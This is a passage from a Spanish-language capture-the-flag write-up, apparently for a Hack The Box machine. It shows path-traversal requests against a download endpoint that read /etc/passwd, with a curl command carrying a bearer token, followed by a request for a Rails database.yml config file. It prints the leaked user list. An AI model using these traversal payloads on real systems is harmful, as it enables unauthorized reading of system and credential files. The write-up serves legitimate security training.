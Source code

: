 ~~~ http
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
ralph:x:1000:1000:ralph:/home/ralph:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
avahi:x:114:120:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
geoclue:x:115:121::/var/lib/geoclue:/usr/sbin/nologin
postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
ron:x:1001:1001:,,,:/home/ron:/bin/bash
~~~

También podemos hacerlo mediante la herramienta `curl`, así podremos filtrar rápidamente por usuarios usando `grep`

~~~ bash
curl -s -X GET 'http://api.heal.htb/download?filename=/etc/passwd' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ' | grep sh$

root:x:0:0:root:/root:/bin/bash
ralph:x:1000:1000:ralph:/home/ralph:/bin/bash
postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
ron:x:1001:1001:,,,:/home/ron:/bin/bash
~~~

Vemos que existen los usuarios `ralph`, `postgres` y `ron`. La descripción del usuario `postgres` nos indica que es el administrador de la base de datos `PostgreSQL`


## SQLite Database Analysis

Investigando posibles archivos de la máquina llegaremos al siguiente archivo de configuración ubicado en el directorio `config` que se encuentra `2` directorios atrás

~~~ http
GET /download?filename=../../config/database.yml HTTP/1.1
~~~

Veremos el contenido del archivo en la respuesta HTTP, donde podemos ver la ruta de dos archivos `sqlite3`
